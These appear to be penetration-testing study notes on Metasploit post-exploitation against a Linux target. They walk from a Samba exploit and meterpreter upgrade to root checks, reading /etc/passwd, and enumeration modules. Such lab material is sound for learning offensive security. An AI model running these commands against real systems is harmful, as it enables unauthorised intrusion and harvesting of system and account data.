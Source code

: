 
+ The MSF provides us with various post exploitation modules for both Windows and Linux.

+ We can utilize these post exploitation modules to enumerate information about the Linux system we currently have access to:
	+ Enumerate system configuration
	+ Enumerate environment variables
	+ Enumerate network configuration
	+ VM check
	+ Enumerate user history

### Basic post exploitation commands

1. Perform `db_nmap` scan.

2. Exploiting SAMBA to gain initial access
```
use exploit/linux/samba/is_known_pipename
```

3. We'll now upgrade the command shell session to a `meterpreter` session.
```
sessions -u 1
```

4. We can now use `getuid` command to check if our `uid` is 0. `uid=0` indicates that we've root access to the target system.

5. We can now check the list of users in the system.
```
cat /etc/passwd
```

6. We can check the distribution version and release.
```
cat /etc/*issue
```

7. Check the hostname, kernel version and other info using `uname -a`

8. We can `ifconfig` or `ip a s` command to check network details.

9. We can list out the processes running in the system using `ps aux` command.

### Linux post exploitation modules

1. Enumerate Linux configurations
```
use post/linux/gather/enum_configs
```

2. Enumerate the operating system environment settings.
```
use post/multi/gather/env
```

